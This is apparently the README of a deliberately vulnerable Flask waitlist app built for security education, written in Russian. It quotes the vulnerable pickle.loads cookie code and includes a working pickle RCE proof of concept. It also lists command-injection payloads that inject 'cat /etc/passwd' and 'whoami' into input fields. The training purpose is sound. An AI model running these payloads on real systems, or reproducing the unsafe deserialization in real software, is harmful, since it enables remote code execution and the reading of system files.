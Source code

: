 # TechLaunch Beta Waitlist - Уязвимое Flask приложение

## 📋 Описание проекта

TechLaunch - это демонстрационное веб-приложение для списка ожидания бета-тестирования, написанное на Flask. Приложение содержит преднамеренно внесенные уязвимости для образовательных целей в области кибербезопасности.

## ⚠️ Выявленные уязвимости

### 1. Небезопасная десериализация (CWE-502)
**Критичность:** Высокая  
**Расположение:** `app.py`, функция `thank_you()`

```python
# УЯЗВИМЫЙ КОД
manager_data = base64.b64decode(manager_cookie)
email_manager = pickle.loads(manager_data)  # RCE через pickle
```

**Воздействие:** Возможность выполнения произвольного кода на сервере

## 🔬 Proof of Concept

### Эксплойт для RCE через pickle

```python
import pickle
import base64
import os

# Самый надежный способ - использовать tuple с функцией и аргументами
class RCE:
    def __reduce__(self):
        # Простая команда для проверки - создает файл
        return (os.system, ('touch /tmp/pwned_success_$(date +%s)',))

# Создаем payload
rce = RCE()
payload = pickle.dumps(rce)
encoded_payload = base64.b64encode(payload).decode()

print(encoded_payload)
```

### Эксплойт для Command Injection

```python
# Через поле email
email = 'test@test.com"; cat /etc/passwd #'

# Через script_path (требует контроля над объектом)
script_path = '/tmp/file; whoami > /tmp/hacked #'
```

## 🛠️ Установка и запуск

### Локальная разработка

```bash
# Клонирование репозитория
git clone <repository-url>
cd techlaunch-vulnerable

# Установка зависимостей
pip install -r requirements.txt

# Запуск приложения
python app.py
```

### Docker развертывание

```bash
# Сборка образа
docker build -t techlaunch-app .

# Запуск контейнера
docker run -p 5000:5000 techlaunch-app
```

Приложение будет доступно по адресу: `http://localhost:5000`

## 📁 Структура проекта

```
techlaunch-vulnerable/
├── app.py                 # Основное Flask приложение
├── templates/
│   ├── index.html         # Главная страница
│   └── thank_you.html     # Страница подтверждения
├── requirements.txt       # Зависимости Python
├── Dockerfile            # Конфигурация Docker
└── README.md            # Документация
```

